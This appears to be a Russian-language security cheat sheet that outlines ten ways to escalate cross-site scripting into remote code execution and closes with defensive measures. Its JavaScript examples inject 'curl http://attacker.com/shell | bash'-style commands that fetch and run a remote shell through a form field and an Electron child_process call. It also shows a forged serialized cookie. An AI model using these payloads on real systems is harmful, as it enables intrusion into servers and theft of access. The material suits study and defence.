 ## 🎯 XSS → RCE: Цепочки эскалации привилегий

### 🔥 **Сценарии достижения RCE через XSS**

---

## 1. **Через административные интерфейсы**

**Сценарий:** XSS в админ-панели → выполнение команд через функционал администрирования

**Как работает:**
```txt
XSS → Кража сессии администратора → Доступ к панели управления → 
Выполнение системных команд через:
- SQL консоль (EXEC xp_cmdshell)
- Функционал резервного копирования
- Загрузка и выполнение файлов
- Настройки сервера/сервисов
```

---

## 2. **Через функционал загрузки файлов**

**Сценарий:** XSS → обход проверок загрузки → веб-шелл

**Векторы:**
- **Маскировка под изображение**: `shell.jpg.php` с правильными magic numbers
- **Polyglot файлы**: JPEG + PHP в одном файле
- **Обход MIME проверок**: подмена Content-Type

---

## 3. **Через системные вызовы в приложении**

**Сценарий:** XSS → эксплуатация функций выполнения команд

**Примеры уязвимых функций:**
```python
# В коде приложения
os.system(user_input)      # Прямой вызов
subprocess.call(cmd)       # Без валидации
eval(user_data)           # Динамическое выполнение
```

**Эксплуатация через XSS:**
```js
// Отправка запроса к уязвимому endpoint
fetch('/admin/backup', {
    method: 'POST',
    body: 'path=/tmp; curl http://attacker.com/shell.sh | bash'
});
```

---

## 4. **Через десериализацию**

**Сценарий:** XSS → модификация сериализованных объектов → RCE при десериализации

**Пример:**
```js
// Изменение сериализованного объекта в cookie/LocalStorage
document.cookie = "session=O:8:\"stdClass\":1:{s:3:\"cmd\";s:10:\"whoami\";}";
// При десериализации выполняется команда
```

---

## 5. **Через SSRF + внутренние сервисы**

**Сценарий:** XSS → SSRF → уязвимые внутренние сервисы

**Цепочка:**
```txt
XSS → Запрос к внутреннему Jenkins/GitLab → 
Выполнение произвольных команд через API → RCE
```

---

## 6. **Через конфигурационные файлы**

**Сценарий:** XSS → изменение конфигурации → выполнение кода

**Примеры:**
- **Изменение .htaccess** для выполнения PHP в uploads
- **Модификация конфигов приложения**
- **Обновление настроек через административный API**

---

## 7. **Через базы данных**

**Сценарий:** XSS → SQL Injection → выполнение команд БД

**Для разных СУБД:**
- **MySQL**: `SELECT ... INTO OUTFILE` + загрузка шелла
- **PostgreSQL**: `COPY ... FROM PROGRAM` выполнение команд
- **SQL Server**: `xp_cmdshell` выполнение системных команд

---

## 8. **Через оркестраторы и контейнеры**

**Сценарий:** XSS → Kubernetes/Docker API → выполнение в контейнере

**Векторы:**
- **Kubernetes API**: создание pod с произвольным образом
- **Docker Socket**: выполнение команд в контейнерах
- **CI/CD системы**: запуск сборок с произвольными командами

---

## 9. **Через клиентские приложения с Electron/Node.js**

**Сценарий:** XSS в Electron-приложении → доступ к Node.js API

**Эксплуатация:**
```js
// Если nodeIntegration включен
const { exec } = require('child_process');
exec('curl http://attacker.com/shell | bash');
```

---

## 10. **Через облачные метаданные**

**Сценарий:** XSS → SSRF → облачные метаданные → IAM компрометация

**Цепочка для AWS:**
```
XSS → Запрос к 169.254.169.254 → 
Кража IAM роли → Доступ к облачным ресурсам → 
Выполнение команд через Lambda/EC2
```

---

## 🛡️ **Критические точки перехода XSS→RCE**

### **Условия успешной эскалации:**

1. **Приложение имеет функционал выполнения команд**
2. **Административные интерфейсы доступны извне**
3. **Отсутствует разделение привилегий**
4. **Есть уязвимые внутренние сервисы**
5. **Конфигурация позволяет выполнение динамического кода**

### **Ключевые защитные меры:**

- **Strict Content Security Policy**
- **HttpOnly cookies** для сессий
- **Проверка прав доступа на каждом endpoint**
- **Изоляция административных функций**
- **Регулярный аудит на наличие опасных функций**

**Вывод:** XSS редко приводит к прямому RCE, но становится критичным вектором в цепочках атак при наличии других уязвимостей в системе.